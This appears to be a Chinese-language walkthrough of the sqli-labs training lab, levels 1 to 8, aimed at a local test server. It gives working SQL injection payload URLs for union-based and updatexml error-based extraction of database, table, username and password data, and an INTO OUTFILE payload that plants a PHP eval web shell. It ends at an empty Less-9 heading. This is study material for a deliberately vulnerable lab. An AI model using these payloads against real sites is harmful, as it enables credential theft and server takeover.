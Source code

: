
## LESS-1 #union注入
```PHP
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);
```
在有回显的情况下是可以通过报错来判断闭合的符号的
需要引号闭合
注列数
`http://127.0.0.1:8888/sqli-labs-master/Less-1/?id=1' order by 3 --+`
确定有回显的字段,这里确定3有回显
`http://127.0.0.1:8888/sqli-labs-master/Less-1/?id=1' union select 1,2,3--+`
爆库名,库名为security
`http://127.0.0.1:8888/sqli-labs-master/Less-1/?id=-1' union select 1,2,database()--+`
爆表名
`http://127.0.0.1:8888/sqli-labs-master/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+`
爆列名
`http://127.0.0.1:8888/sqli-labs-master/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`
爆出字段
`http://127.0.0.1:8888/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users--+`

## LESS-2 #union注入 
```php
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);
```
和less-1不同点在于不需要进行引号闭合
注列数
`http://127.0.0.1:8888/sqli-labs-master/Less-2/?id=1 order by 3 --+`
确定有回显的字段,这里确定3有回显
`http://127.0.0.1:8888/sqli-labs-master/Less-2/?id=1 union select 1,2,3--+`
爆库名,库名为security
`http://127.0.0.1:8888/sqli-labs-master/Less-2/?id=-1 union select 1,2,database()--+`
爆表名
`http://127.0.0.1:8888/sqli-labs-master/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+`
爆列名
`http://127.0.0.1:8888/sqli-labs-master/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`
爆出字段
`http://127.0.0.1:8888/sqli-labs-master/Less-2/?id=-1 union select 1,group_concat(username),group_concat(password) from users--+`

## LESS-3 #union注入 
```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);
```

`http://127.0.0.1:8888/sqli-labs-master/Less-3/?id=1') order by 3 --+`

`http://127.0.0.1:8888/sqli-labs-master/Less-3/?id=1') union select 1,2,3 --+`

`http://127.0.0.1:8888/sqli-labs-master/Less-3/?id=-1') union select 1,2,database() --+`

`http://127.0.0.1:8888/sqli-labs-master/Less-3/?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+`

`http://127.0.0.1:8888/sqli-labs-master/Less-3/?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+`

`http://127.0.0.1:8888/sqli-labs-master/Less-3/?id=-1') union select 1,group_concat(username),group_concat(password) from users --+`

## LESS-4 #union注入 
从这里开始不再挨个记录payload仅记录变化的和闭合方式
") 闭合
```php
$id = '"' . $id . '"';  
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);
```

`http://127.0.0.1:8888/sqli-labs-master/Less-4?id=1") order by 3--+`

## LESS-5 #报错注入 
这关无结果回显,有报错,可以使用报错注入
updatexml是需要分段注入的
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);
```
' 闭合
`http://127.0.0.1:8888/sqli-labs-master/Less-5?id=1'`
爆库名
`http://127.0.0.1:8888/sqli-labs-master/Less-5?id=1'and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+`
爆表名
`http://127.0.0.1:8888/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)--+`
爆列名
`http://127.0.0.1:8888/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,31),0x7e),1)--+`
爆字段
`http://127.0.0.1:8888/sqli-labs-master/Less-5/?id=1'and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1)--+`

## LESS-6 #报错注入 
```php
$id = '"'.$id.'"';  
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);
```
“ 闭合
同样使用updatexml()

## LESS-7 #导出文件注入 
```php
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);
```

这样的语句是可以写入文件的但是需要打开 ==secure-file-priv== ，在my.ini中将值设为文件夹
`SELECT * FROM users WHERE id=(('1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "C:\\wum0ster\\tools\\Web\\phpstudy\\phpstudy_pro\\WWW\\sql-lab\\sqli-labs-master\\Less-7\\shell.php";`

![[Pasted image 20230216222934.png]]

`http://127.0.0.1:8888/sqli-labs-master/Less-7?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "C:\\wum0ster\\tools\\Web\\phpstudy\\phpstudy_pro\\WWW\\sql-lab\\sqli-labs-master\\Less-7\\shell.php"--+`

## LESS-8 #BOOL盲注
只会显示 You are in ...... 在其他时候会不显示，判断为bool盲注，盲注类的适合使用脚本，二分法的最快
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);  
  
	if($row)  
	{   
	echo '<font size="5" color="#FFFF00">';      
	echo 'You are in...........';  
	echo "<br>";  
	    echo "</font>";  
	}  
	else   
	{  
	echo '<font size="5" color="#FFFF00">';  
   //echo 'You are in...........';  
   //print_r(mysql_error());   //echo "You have an error in your SQL syntax";   echo "</br></font>";     
	echo '<font color= "#0000ff" font size= 3>';     
     
	}  
```


## LESS-9


